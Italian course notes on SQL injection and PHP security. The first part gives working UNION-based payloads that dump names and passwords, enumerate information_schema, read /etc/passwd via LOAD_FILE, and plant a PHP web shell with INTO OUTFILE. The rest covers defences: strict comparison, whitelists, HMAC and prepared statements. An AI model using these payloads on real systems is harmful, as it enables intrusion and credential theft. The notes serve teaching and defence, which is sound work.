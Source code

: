 Abbiamo visto come sfruttare nelle [[Web attacks#SQL injection|sql injection]] la clausola `where` in query che non controllano l'input dell'utente in modo da far sempre valere la condizione.

È anche possibile effettuare un leak di altre tabelle attraverso `UNION` oppure `UNION ALL`, ma per farlo <u>serve conoscere il numero di colonne</u>, è possibile dunque procedere per **brute-force** finchè non si ottiene qualche forma di output (se il numero di colonne inserito è sbagliato la query fallisce).
```
... WHERE lastname = '' UNION ALL SELECT 1 #'
... WHERE lastname = '' UNION ALL SELECT 1,1 #'
... WHERE lastname = '' UNION ALL SELECT 1,1,1 #
```

Poi sempre tramite brute-force si provano nomi comuni per tabelle:
```
… WHERE lastname = '' UNION ALL SELECT 1,1,1 FROM people #'
```

Le colonne possono essere **concatenate** in una singola per aggirare il vincolo imposto da `UNION`:
```
' UNION ALL SELECT CONCAT(name,'|',lastname), password, url FROM people #
```

Anche le righe possono essere **agglomerate** in una singola nel caso la web app mostri un singolo risultato:
```
' UNION ALL SELECT GROUP_CONCAT(name, '|', lastname, '|', password SEPARATOR ' '), 1, 1 FROM people #
```

Molti sistemi hanno un database speciale **information_schema** il quale memorizza le informazioni degli altri db del sistema.
```sql
-- List databases
SELECT schema_name FROM information_schema.schemata

-- List tables
SELECT table_schema, table_name FROM information_schema.tables

-- List the columns of all relevant databases
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema NOT LIKE '%_schema'
```

Se l'utente del db che esegue la query ha il privilegio **FILE** esso potrà **leggere** i file tramite `LOAD_FILE("etc/passwd")` è possibile anche creare file:
```sql
SELECT '<?php passthru($_GET["cmd"]); ?>' INTO OUTFILE
'/var/www/pwn.php'
```

## Security best practices (PHP)
1. Usare l'operatore di **uguaglianza stretta**: `===`
2. Eseguire il **casting dei valori** o controllare il loro tipo prima di applicargli una funzione
```php
strcmp((string)$input, $token) === 0
```

3. Usare una **whitelist** per limitare gli input dell'utente
```php
$whitelist = array('home.html','about.html');
// check that the name is in $whitelist
// the third parameter (true) requires strict comparison!
if (isset($_GET["p"]) and in_array($_GET["p"], $whitelist, true)) 
```

4. Controllare l'**integrità dell'input** utente prima che esso sia passato a funzioni _pericolose_
	Ad esempio durante la deserializzazione, questo controllo va fatto _prima_ di deserializzare

Un meccanismo standard per verificare i messaggi è l'**Hash-based MAC (HMAC)**, il quale rende infattibile la computazione dell'hash corretto senza la **chiave**.
![[HMAC.png]]

La web app genera una chiave interna $k$, il valori sono esportati con l'HMAC associato, quando sono poi importati l'HMAC viene ri-computato per controllare che sia uguale.
```php
string hash_hmac(
	string $algo,
	string $data,
	string $key [, bool $raw_output = FALSE ]
)
```
>Dato che $k$ è conosciuto solo dall'applicazione un HMAC valido prova che il valore non è stato modificato.

5. Usare **funzioni/API sicure** se disponibili

I **prepared statements** inizialmente sono stati creati per rendere più veloci le query, ma essi prevengono anche sql injection in quanto la query è già stata analizzata e "pre-computata", quindi non è possibile che un attaccante inserisca codice che venga interpretato come parte della query.
```sql
mysql> PREPARE stmt1 FROM 'SELECT * FROM people WHERE lastname=?';
mysql> set @n = 'Mario';
mysql> EXECUTE stmt1 USING @n;
+---+---+
|   |   |
+---+---+

mysql> set @n = "'' OR 1";
mysql> EXECUTE stmt1 USING @n;
Empty set (0.00 sec)
```

Anche PHP offre API per i prepared statements:
```php
$link=new mysqli("localhost", "sqli_example", ...);
if(!$link) die('Could not connect: ' . mysqli_error());

$stmt = $link->prepare("
	SELECT name, lastname, url FROM people WHERE lastname = ?
");

$stmt->bind_param("s", $_POST['lastname']);
$stmt->execute();
```

È possibile usare i PHP **Data Object** i quali forniscono un'API uniforme per vari tipi di database:
```php
try {
	$link = new PDO("mysql:dbname=sqli_example; ...");
} catch (PDOException $e) {
	exit;
}

$stmt = $link->prepare("
	SELECT name, lastname, url FROM people
	WHERE lastname = :lastname
");

// ... = optional data type
$stmt->bindParam(':lastname', $_POST['lastname'], ... );
$stmt->execute();
```

Sebbene i _prepared statements_ evitano sql injection, non tutta la query può essere parametrizzata (e.g. il nome della tabella), si potrebbe voler verificare la bontà delle query che usano direttamente input utente, ma ciò non terrebbe conto delle **second order injections** le quali inseriscono pezzi di query non previsti in query che dipendono da altre query che usano input utente.
>Ogni query dovrebbe prevenire sql injection.

6. [[Sicurezza#Prevenire SQL injection|Sanificare le query]]

